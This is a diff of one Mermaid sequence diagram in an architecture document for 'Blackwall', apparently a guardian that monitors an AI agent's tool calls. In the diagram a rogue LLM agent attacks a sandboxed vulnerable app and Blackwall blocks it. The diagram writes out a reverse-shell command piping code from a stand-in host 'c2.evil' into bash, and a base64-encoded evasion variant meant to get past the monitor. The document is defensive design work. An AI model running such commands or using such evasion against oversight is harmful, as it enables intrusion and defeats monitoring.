

The second of 4 diagrams in ENTERPRISE_ARCHITECTURE.md (JAaron93/Blackwall), drawn with Mermaid before and after one commit. The commit also changed 6 other files, not shown here.

````diff
--- a/ENTERPRISE_ARCHITECTURE.md
+++ b/ENTERPRISE_ARCHITECTURE.md
@@ -50,33 +50,33 @@
 ```mermaid
 sequenceDiagram
     autonumber
     actor Spectator as Terminal Spectator / Judge
     participant MockApp as Vulnerable FastAPI App (localhost:8000)
     participant RogueAgent as Rogue Agent (Qwen3-Coder 480B @ 600 RPM)
     participant Blackwall as Blackwall Guardian Defender
     participant LocalTSG as SQLite Threat Graph (WAL)
 
     Spectator->>Blackwall: Launch demo_live.py (Rich Dual-Column TUI)
     Blackwall->>MockApp: Initialize Target Sandbox Endpoints
 
     rect rgb(40, 20, 20)
         Note over RogueAgent,Blackwall: Wave 1: Novel Attack Execution
         RogueAgent->>MockApp: Attempt 1: Injects Reverse Shell Payload (curl http://c2.evil/sh | bash)
         MockApp-->>Blackwall: sys.addaudithook / before_tool_callback triggers
         Blackwall->>Blackwall: Structural Gating -> ESCALATE
         Blackwall->>LocalTSG: Cosine Search: Novel pattern (No Match)
-        Blackwall->>Blackwall: Semantic Gating (GTI + CBM + Intent Scoring = 0.88)
+        Blackwall->>Blackwall: Semantic Gating (Threat Intel + CBM + Intent Scoring = 0.88)
         Blackwall-->>RogueAgent: VERDICT: BLOCK (PermissionError Raised)
         Blackwall->>LocalTSG: Auto-Generate Threat Signature (768-dim Vector)
     end
 
     rect rgb(20, 40, 20)
         Note over RogueAgent,Blackwall: Wave 2: Polymorphic Evasion Attempt
         RogueAgent->>MockApp: Attempt 2: Polymorphic Variant (base64 -d | sh via port 9443)
         MockApp-->>Blackwall: before_tool_callback triggers
         Blackwall->>LocalTSG: Query Vector Cosine Similarity
         LocalTSG-->>Blackwall: Match Found: Similarity 0.91 >= 0.85 Threshold
         Blackwall-->>RogueAgent: VERDICT: BLOCK via Signature (~7.0ms)
         Note over Blackwall,Spectator: 144x Speedup with Zero LLM Inference
     end
 ```
````
